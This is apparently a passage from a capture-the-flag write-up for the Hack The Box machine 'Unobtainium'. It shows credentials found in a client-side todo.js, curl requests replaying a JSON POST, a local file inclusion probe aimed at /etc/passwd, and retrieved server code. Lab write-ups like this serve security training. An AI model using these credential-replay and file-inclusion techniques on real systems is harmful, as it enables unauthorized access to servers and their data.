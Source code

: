 ![obraz](https://github.com/user-attachments/assets/fd5d7ea7-aed8-4f6a-8d90-7ed1d4e86fd0)  



## Source code - Analysis  

![obraz](https://github.com/user-attachments/assets/2cef7813-d18e-46d8-b4d8-c2cdf939910e)

After some enumeration we found todo.js  

![obraz](https://github.com/user-attachments/assets/4ff44091-3a4e-45a3-a2ae-01f76ec92b57)

It contained a post request with credentials in it:  
Felamos:Winter2021

We can of course try those credentials for ssh but without a success unfortunately.  
Back to the request, it's a post request to http://unobtainium.htb:31337/todo with some json data.  

We know that port 31337 is open from previous nmap scan.  
It should be possible to replicate this request.  
```
curl -s http://unobtainium.htb:31337/todo -H "Content-Type: application/json" -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "todo.txt"}' | jq
```
![obraz](https://github.com/user-attachments/assets/1f556558-5876-4ed1-adcd-9b661740a7e9)

Whenever I encounter a parameter like 'filename', I test it for Local File Inclusion.  
```
curl -s http://unobtainium.htb:31337/todo -H "Content-Type: application/json" -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "/etc/passwd"}' | jq
```

It just hangs for any LFI outside local folder.  
We can try to use LFI to get server-side .js file:

![obraz](https://github.com/user-attachments/assets/248148e3-2b88-40f5-800a-4808f93d9f1a)

index.js was a guess, it could be named differently.   
Let's analyze it a bit.  
Admin password is random:  
```
const users = [
  {name: 'felamos', password: 'Winter2021'},
  {name: 'admin', password: Math.random().toString(32), canDelete: true, canUpload: true},      
];
...[snip]...                              
function findUser(auth) {
  return users.find((u) =>
    u.name === auth.name &&
    u.password === auth.password);
}
```
admin can also upload and delete which felamos can't do.  
